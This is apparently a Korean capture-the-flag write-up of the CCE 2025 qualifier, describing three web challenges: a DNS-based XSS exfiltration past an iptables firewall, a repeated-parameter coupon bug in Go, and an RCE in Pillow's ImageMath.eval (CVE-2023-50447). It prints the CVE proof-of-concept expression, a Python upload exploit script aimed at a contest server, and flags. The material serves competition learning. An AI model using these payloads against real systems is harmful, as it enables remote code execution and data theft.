


YISF 본선 전날에 CCE 예선을 나갔다.  
해킹의 정석팀으로 참여해서 6등으로 본선을 가게 되었다.  
올해 목표가 메이저 대회 본선 진출과 수상이었는데 비록 코게는 못갔지만 CCE 본선에 갈 수 있게 되어 다행이다

---

## Solves
- First Day  
- Discount Coupon  
- Photo Editing 

---

## First Day
방화벽을 우회해서 XSS 하는 문제였다

`firewall.sh`
```sh
#!/usr/bin/env bash
set -euo pipefail

iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP

iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

iptables -A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
iptables -A OUTPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT

iptables -A INPUT -p tcp --dport 80 -m conntrack --ctstate NEW -j ACCEPT
iptables -A OUTPUT -p udp -j ACCEPT
```

TCP로 요청 나가는걸 막고 있으므로 UDP나 DNS로 leak 해야겠단 생각을 했다

마침 팀원이 전에 학교 프로젝트로 DNS 서버 구축해둔게 있었고 그거 가지고 플래그 leak했다

## Discount Coupon

Golang으로 쓰여진거라 쫄았는데 생각보다 별거 없었다

```go
if formValues.Has("coupon") {
  for range formValues["coupon"] {
    if user.CouponUsed {
      tx.Rollback()
      var prods []models.Product
      config.DB.Find(&prods)
      c.HTML(400, "products.html", gin.H{
        "msg":        "이미 쿠폰을 사용하셨습니다.",
        "products":   prods,
        "couponLeft": !user.CouponUsed,
        "balance":    user.Balance,
        "username":   user.Username,
      })
      return
    }
    price = price / 2
  }
  user.CouponUsed = true
}
```

취약점이 대놓고 보인다

바디에 들어간 coupon 수만큼 루프돌면서 적용해주고 있으므로 coupon 값 중복해서 넣으면 다 적용시켜 계속 할인된다.

```
product_id=2&coupon=on&coupon=on&coupon=on&coupon=on&coupon=on&coupon=on
```

`cce2025{52eb1c95630d4d8ed303cf44d8ac2b8e46b15501b23d379a7238118b754a55e6}`

## Photo Editing
```python
def apply_transform(transform_name, filenames, user_uuid, options=None):
    """Apply a specific transformation to images and return PIL Image objects."""
    images = get_processed_images(filenames, user_uuid)
    if not images:
        return []
    if options is None:
        options = {}

    if transform_name == 'rotate':
        angle = options.get('angle', 90)
        return [img.rotate(angle, expand=True) for img in images]
    
    elif transform_name == 'composite':
        if len(images) != 2:
            raise ValueError("이미지 합성은 반드시 2개의 이미지를 선택해야 합니다.")
        img1 = images[0]
        img2 = images[1].resize(img1.size)
        return [Image.blend(img1, img2, alpha=0.5)]

    elif transform_name == 'append':
        num_images = len(images)
        if num_images == 0:
            raise ValueError("이미지를 선택해주세요.")
        elif num_images > 4:
            raise ValueError("이미지 조합은 최대 4장까지만 지원합니다.")

        if num_images == 1:
            return images 
        elif num_images <= 3:
            min_width = min(img.width for img in images)
            resized_images = [img.resize((min_width, int(img.height * min_width / img.width))) for img in images]
            
            total_height = sum(img.height for img in resized_images)
            dst = Image.new('RGB', (min_width, total_height))
            
            y_offset = 0
            for img in resized_images:
                dst.paste(img, (0, y_offset))
                y_offset += img.height
            return [dst]
        elif num_images == 4:
            min_size = min(img.width for img in images), min(img.height for img in images)
            resized_images = [img.resize(min_size) for img in images]
            
            dst = Image.new('RGB', (min_size[0] * 2, min_size[1] * 2))
            dst.paste(resized_images[0], (0, 0))
            dst.paste(resized_images[1], (min_size[0], 0))
            dst.paste(resized_images[2], (0, min_size[1]))
            dst.paste(resized_images[3], (min_size[0], min_size[1]))
            return [dst]

    elif transform_name == 'contour':
        return [img.filter(ImageFilter.CONTOUR) for img in images]

    elif transform_name == 'solarize':
        threshold = options.get('threshold', 128)
        return [ImageOps.solarize(img, threshold=threshold) for img in images]

    elif transform_name == 'brightness':
        factor = options.get('factor', 1.5)
        return [ImageEnhance.Brightness(img).enhance(factor) for img in images]

    elif transform_name == 'grayscale':
        return [img.convert('L') for img in images]

    elif transform_name == 'sepia':
        sepia_matrix = [
            0.393, 0.769, 0.189, 0,
            0.349, 0.686, 0.168, 0,
            0.272, 0.534, 0.131, 0
        ]
        return [img.convert("RGB", sepia_matrix) for img in images]

    elif transform_name == 'custom_formula':
        exp = options.get('expression')
        if not exp:
            raise ValueError("Custom formula requires an 'expression'.")
        env = { fname: img for fname, img in zip(filenames, images) }
        try:
            result = ImageMath.eval(exp, env)
            return [result]
        except Exception as e:
            return [None]
    else:
        raise ValueError(f"Unknown transformation: {transform_name}")
```
custom_formula에서 `ImageMath.eval()`을 사용한다
서버에서 Pillow 10.0.0을 사용하고 있어 `CVE-2023-50447`를 트리거 할 수 있다

CVE 내용을 보자면

```python
from PIL import Image, ImageMath

image1 = Image.open('__class__')
image2 = Image.open('__bases__')
image3 = Image.open('__subclasses__')
image4 = Image.open('load_module')
image5 = Image.open('system')


expression = f"().__class__.__bases__[0].__subclasses__()[84].load_module('os').system('calc')"

environment = {
    image1.filename: image1,
    image2.filename: image2,
    image3.filename: image3,
    image4.filename: image4,
    image5.filename: image5
}

ImageMath.eval(expression, environment)
```

특정한 이름을 가진 파일들을 `ImageMath.eval()`의 두번째 인자로 넣어주면 RCE가 가능하다.

```python
import requests
from bs4 import BeautifulSoup
import uuid
import os

url = 'http://3.38.167.161:5000'
board_id = 'c3200d82-e892-4632-8dc5-bc225814f28d'
username = 'nullbyte'
password = '123456'
image_paths = ['__class__.png', '__bases__.png', '__subclasses__.png', 'load_module.png', 'system.png']

s = requests.Session()

def get_csrf():
    res = s.get(f'{url}/auth/login')
    soup = BeautifulSoup(res.text, 'html.parser')
    token = soup.find('input', {'name': 'csrf_token'})['value']
    return token

login_data = {
    'username': username,
    'password': password,
    'csrf_token': get_csrf()
}

s.post(f'{url}/auth/login', data=login_data)

res = s.get(f'{url}/board/{board_id}/create')
soup = BeautifulSoup(res.text, 'html.parser')
csrf_token = soup.find('input', {'name': 'csrf_token'})['value']

files = []
for path in image_paths:
    ext = path.rsplit('.', 1)[1].lower()
    new_name = path.rsplit('.', 1)[0]
    files.append(('images', (new_name, open(path, 'rb'), 'image/jpeg')))

data = {
    'csrf_token': csrf_token,
    'title': 'nullbyte',
    'content': '안녕'
}

res = s.post(f'{url}/board/{board_id}/create', data=data, files=files)
```

이미지 5개 업로드하고



Dockerfile에 wget이 있어서 그거 가지고 플래그 보냈다

`cce2025{1dd859f7e538fef324b4ef83f5004433c590c253a5750ac6667ba1abc95789adcf93595acfd927f2694514dace1f82f9b4cea0}`